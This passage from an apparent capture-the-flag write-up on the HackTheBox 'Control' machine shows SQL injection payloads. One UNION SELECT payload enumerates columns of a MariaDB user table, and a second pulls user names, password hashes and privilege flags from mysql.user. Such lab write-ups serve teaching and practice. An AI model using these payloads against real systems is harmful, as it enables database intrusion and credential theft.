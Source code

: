 ![tables-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/tables-17.png)


From here, I use the following payload `p' UNION SELECT 1,column_name,3,4,5,6 FROM information_schema.columns WHERE table_name='user' #` to dump out all the columns from the `user` table. I won't add a screenshot here, since the result is quite large, but here some of the more interesting columns:

```sql
User
Password
Insert_priv
Update_priv
Create_priv
Process_priv
File_priv
Grant_priv
Show_db_priv
Super_priv
Execute_priv
Create_user_priv
authentication_string
is_role
```

These are actually [MariaDB privs](https://mariadb.com/kb/en/mysql-user-table/), which are like access controls on database users. They control what each user is able to do on the server.  


At this point, I try to get the `User`, `Password`, `show_db_priv`, `file_priv` & `super_priv` columns with the following statement: `p' UNION SELECT user,password,show_db_priv,file_priv,super_priv FROM mysql.user #`:
